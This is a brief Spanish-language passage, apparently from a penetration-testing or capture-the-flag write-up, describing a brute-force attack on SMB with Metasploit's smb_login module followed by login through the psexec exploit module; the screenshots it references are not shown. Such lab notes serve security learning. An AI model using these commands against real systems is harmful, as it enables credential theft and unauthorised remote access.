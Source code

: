 Utilizamos un ataque de fuerza bruta contra el protocolo smb y obtenemos las credenciales:
```bash
use auxiliary/scanner/smb/smb_login
```
![[Pasted image 20230730161556.png]]
Podemos usar el módulo de psexec para iniciar sesión con dichas credenciales:
```bash
use exploit/windows/smb/psexec
```
![[Pasted image 20230730161744.png]]

